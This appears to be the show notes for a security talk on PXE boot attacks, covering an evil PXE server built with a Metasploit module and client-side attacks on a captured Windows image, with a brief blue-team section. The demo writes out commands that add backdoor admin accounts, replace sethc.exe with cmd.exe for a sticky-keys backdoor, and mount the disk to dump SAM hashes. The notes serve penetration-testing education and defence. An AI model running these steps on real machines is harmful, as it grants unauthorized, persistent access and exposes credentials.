

PXE Boot Attacks - Tradecraft Security Weekly #27

# What is PXE?
- Pre-boot Execution Environment (PXE)
- Typically used to deploy operating system images to new hosts.
- Allows for network booting so admins don't have to go through OS install from scratch
- Interesting attacks from both the client and server sides
# How does it work?

# PXE Boot Attacks: Evil Server
- Create an Evil PXE Server
- Host DHCP and TFTP to serve up a malicious boot image
- Metasploit auxiliary/server/pxeexploit
	- Installs Meterpreter service
	- Disables Firewall
	- Adds new admin user
- Requires victim to reboot and network boot
- Metasploit DHCP server has had issues, might want to try hosting with dnsmasq
# PXE Boot Attacks: Client
- Set VM to network boot to obtain and image from target organization
- Perform local attacks against 'golden image'
- Really useful for onsite engagements where you have physical network access
- Use as a pivot point
- Gain useful info about domain/system info (AV, OS, etc)
- Kiosk? Fun with restricted env escapes
- During inital Windows setup try pressing Shift+F10 to bring up a console
	- Add a new admin
- After getting an image boot from kali iso
- Mount Windows drive
	- Can now add a backdoor account
	- Overwrite Sticky Keys with cmd.exe
	- Dump local hashes to crack or PTH later
	- Look for other info about domain/servers
# DEMO
After downloading and creating the image in pxe boot and during initial reboot...when you see the "Starting services screen"
```
Shift+F10
cmd.exe>
C:\ net user dafthack SuperPassword2018! /ADD
C:\ net localgroup administrators /add dafthack
close window
```
Boot to Kali image
```
esc during boot
load a live kali iso image
# fdisk -l
# mkdir /mnt/ntfs
# mount -t ntfs-3g /dev/sda2 /mnt/ntfs
# cd /mnt/ntfs/
# ls 
```
can dump the SAM files
can also set up sticky key attacks
```
# cd /mnt/ntfs/Windows/System32/
# cp cmd.exe sethc.exe
reset vm
```
let it boot into windows and admin user
```
shift 5 times 
C:\ net user dafthack2 SuperPassword2018! /ADD
C:\ net localgroup administrators /add dafthack2
restart
```
# For the Blue Team
- Implement NAC to prevent unauthorized devices from connecting
- Only enable PXE boot on helpdesk/imaging subnets
